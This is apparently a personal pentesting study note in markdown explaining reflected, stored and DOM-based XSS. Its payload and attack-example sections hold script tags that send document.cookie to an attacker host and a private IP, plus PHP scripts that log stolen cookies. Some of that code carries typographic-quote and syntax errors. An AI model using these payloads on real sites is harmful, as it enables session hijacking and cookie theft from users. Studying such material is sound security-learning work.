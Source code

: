 ```yaml
---
title: XSS attack - Cross-Site Scripting
author: amandaguglieri
draft: false
TableOfContents: true
tag: pentesting, webpentesting
---
```


**Cross-Site Scripting** attacks or **XSS** attacks enable attackers to inject client-side scripts into web pages. This is done through an URL than the attacker sends. Crafted in the URL, this js payload is injected.

```
# Quick steps to test XSS 
# 1. Find a reflection point (inspect source code and expand all tags to make sure that it's really a reflection point and it's not parsing your input)
# 2. Test with <i> tag
# 3. Test with HTML/JavaScript code (alert('XSS'))
```


## Cross-Site Scripting XSS: reflected, persistent or DOM based

**Reflected attacks**: malicious payload is carried inside the request that the browser sends. You need to bypass the anti-xss filters. This way when the victim clicks on it it will be sending their information to the attacker (limited to js events).  

Example:

```
http://victim.site/seach.php?find=<payload>
```

**Persistent or stored XSS attacks**: payload is sent to the web server and then stored. The most common vector for these attacks are HTML forms that submit content to the web server and then display that content back to the users (comments, user profiles, forum posts…). Basically if the url somehow stays in the server, then, every time that someone accesses to it, they will suffer the attack.

**DOM based** XSS attacks: tricky one. This time the javascript file procedes from the server, and in that sense, the file is trusteable. Nevertheless, the file modifies changes in the web structure. [Quoting OWASP](https://owasp.org/www-community/attacks/DOM_Based_XSS): "DOM Based XSS (or as it is called in some texts, “type-0 XSS”) is an XSS attack wherein the attack payload is executed as a result of modifying the DOM “environment” in the victim’s browser used by the original client side script, so that the client side code runs in an unexpected manner".


## Mitigation for cookie stealing

Depending on Enabling the HTTPOnly flag.


## Crafted payloads

```html
<script>alert(‘lala’)</script>

<script>alert(document.cookie)</script>

<script>
var i = new Image();
i.src = “http://attacker.site/log.php?q=”+document.cookie;
</script>
```

Now, this script save the cookie in a text file on the attacker site:

```php
	<?php
		$filename=”/tmp/log.txt”;
		$fp=fopen($filename, ‘a’);
		$cookie=$_GET[‘q`];
		fwrite($fp, $cookie);
		fclose($fp);
	?>
```

## Example of an attack

The attacker creates a get.php file and saves it into its server. 

This php file will store the data that the attacker server receives into a file.

This could be the content of the get.php file:

```php
<?php
	$ip = $_SERVER(‘REMOTE_ADDR’);
	$browser = $_SERVER(‘HTTP_USER_AGENT’);

	$fp = fopen(‘jar.txt’, ‘a’);

fwrite($fp, $ip . ‘ ‘ . $browser . “ \n”);
fwrite($fp, urldecode($_SERVER[‘QUERY_STRING’]) . “ \n\n”);
fclose($fp);
?>
```

Now in the web server the attacker achieve to store this payload:

```html
<script>
var i = new Image();
i.src = “http://attacker.site/get.php?cookie=”+escape(document.cookie);
</script>

# Or in one line:
<script>var i = new Image(); i.src = “http://10.86.74.7/moville.php?cookie=”+escape(document.cookie); </script>
``` 

## Tools and payloads

- See updated chart: [Attacks and tools for web pentesting](index-attacks-tools-web-pentesting.md).


